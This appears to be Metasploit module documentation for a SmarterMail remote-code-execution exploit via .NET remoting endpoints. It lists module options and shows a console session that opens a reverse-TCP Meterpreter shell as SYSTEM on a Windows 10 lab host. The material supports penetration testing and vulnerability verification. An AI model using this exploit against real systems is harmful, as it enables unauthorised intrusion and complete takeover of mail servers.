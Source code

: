## Options

### TARGET (Required)

    0. Target 0 (default) - Windows Command uses a default PowerShell payload to execute
    code and open a Meterpreter session. However, any desired payload can be chosen. Choose with `set TARGET 0`.
    1. Target 1 - x86/x64 Windows CmdStager uses a CmdStager with default `vbs` stager flavor to execute code and open a Meterpreter session. Choose with `set TARGET 1`.

### ENDPOINT (Required)

Choose one of three exposed .NET remoting endpoints, either `Servers`, `Spool` or `Mail`. The default is `Servers`, but any one of the three will do.

### RPORT (Required)

This is the port for the SmarterMail HTTP server, which is default on port 9998. Although this port is not required for exploitation, it is required for checking the vulnerability and version/build number of the SmarterMail software.

### TARGETURI (Required)

This is the base path of the SmarterMail HTTP server. The vulnerability check follows the redirect from base path `/` to the login page at `/interface/root#/login`, but this option is provided in case the login page is located at a different URI.

### TCP_PORT (Required)

This is the TCP port where the .NET remoting endpoints are located, and is required for sending serialized data and Meterpreter payloads. The default port is 17001.

## Scenarios

### SmarterMail Build 6970 on Windows 10 Pro

* Using default TARGET 0 - Windows Command

```
msf6 > use exploit/windows/http/smartermail_rce 
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:51164) at 2023-07-07 03:30:47 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
```